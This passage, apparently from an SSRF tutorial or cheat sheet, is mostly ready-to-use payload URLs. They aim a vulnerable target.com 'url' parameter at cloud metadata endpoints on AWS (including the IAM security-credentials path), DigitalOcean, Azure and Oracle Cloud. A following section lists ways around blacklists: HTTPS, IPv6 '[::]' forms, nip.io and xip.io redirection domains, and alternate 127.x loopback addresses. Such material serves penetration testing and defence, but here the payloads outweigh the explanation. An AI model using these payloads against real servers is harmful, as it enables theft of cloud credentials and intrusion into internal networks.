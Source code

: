 https://target.com/page?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/aws-elasticbeanorastalk-ec2-role`  
  
Additional links can be found in the [official documentation of AWS](https://docs.aws.amazon.com/index.html).

#### **DigitalOcean**

Similar to AWS, DigitalOcean uses `169.254.169.254` for their services and checks the [documentation](https://www.digitalocean.com/docs/) for more information.  
  
`https://target.com/page?url=http://169.254.169.254/metadata/v1.json  
https://target.com/page?url=http://169.254.169.254/metadata/v1/id  
https://target.com/page?url=http://169.254.169.254/metadata/v1/user-data  
https://target.com/page?url=http://169.254.169.254/metadata/v1/hostname  
https://target.com/page?url=http://169.254.169.254/metadata/v1/region  
https://target.com/page?url=http://169.254.169.254/metadata/v1/interfaces/public/0/ipv6/address`

#### **Azure**

Azure is more limited than other cloud providers in this regard. Check the [official documentation](https://docs.microsoft.com/en-us/azure/?product=featured) for more information.  
  
Azure requires header `Metadata: true`.  
  
`https://target.com/page?url=http://169.254.169.254/metadata/maintenance  
https://target.com/page?url=http://169.254.169.254/metadata/instance?api-version=2019-10-01  
https://target.com/page?url=http://169.254.169.254/metadata/instance/network/interface/0/ipv4/ipAddress/0/publicIpAddress?api-version=2019-10-01&format=text`

#### **Oracle Cloud**

Oracle cloud uses the `192.0.0.192` address.  
  
`https://target.com/page?url=http://192.0.0.192/latest/  
https://target.com/page?url=http://192.0.0.192/latest/meta-data/  
https://target.com/page?url=http://192.0.0.192/latest/user-data/  
https://target.com/page?url=http://192.0.0.192/latest/attributes/`

### **Bypasses**

One way to protect against SSRF is to blacklist certain domains and IP addresses. Yet, blacklisting isn’t really a good defense technique as hackers can use bypasses to avoid your security measures.

#### **Bypass using HTTPS**

Common blacklists blocking everything on port `80` or the `http` scheme. but the server will handle requests to `443` or `https` just fine.  
  
Instead of using `http://127.0.0.1/` use: `https://127.0.0.1/ https://localhost/`

#### **Bypass localhost**

The most common blacklist is blacklisting IP addresses like `127.0.0.1` or localhost. To bypass these blacklists you can use:

-   With `[::]`, abuses IPv6 to exploit
    -   `**http://[::]/**`
    -   `**http://[::]:80/**`
    -   `**http://0000::1/**`
    -   `**http://0000::1:80/**`
-   With domain redirection, useful when all IP addresses are blacklisted
    -   `**http://localtest.me**`
    -   `**http://test.app.127.0.0.1.nip.io**`
    -   `**http://test-app-127-0-0-1.nip.io**`
    -   `**httP://test.app.127.0.0.1.xip.io**`
-   With CIDR, useful when just `127.0.0.1` is whitelisted
    -   `**http://127.127.127.127/**`
    -   `**http://127.0.1.3/**`